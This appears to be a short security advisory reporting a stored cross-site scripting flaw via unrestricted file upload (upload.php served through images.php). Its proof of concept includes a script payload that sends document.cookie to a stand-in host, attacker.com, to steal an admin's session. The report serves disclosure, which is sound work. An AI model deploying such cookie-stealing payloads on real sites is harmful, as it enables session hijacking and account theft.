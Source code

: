 # Description

Stored XSS via Unrestricted File Upload  

- **Type:** Stored Cross-Site Scripting (XSS)  
- **Location:** `upload.php` → `images.php?id=<id>`  
- **Severity:** Low (Scoped to authenticated users)  
- **Impact:** JavaScript execution in authenticated sessions  

This allows an attacker to upload files like:  

```html
<script>alert(document.cookie)</script>
```
and have them rendered by images.php?id=<id>, where the file is served as HTML.  

The only restriction is that the XSS payload is accessible only by authenticated users with a valid JWT or session. This still presents a serious issue if a victim is an admin, a staff user or another privileged role.  


# PoC

Send POST /upload.php with malicious HTML/JS file inside.

``` javascript
<script> fetch=('http://attacker.com/?cookie='+document.cookie)</script>  
```

After that, if admin decides to go in given link (images.php?id=123) we will get his cookies.  

[upload](../images/file_upload.gif) 

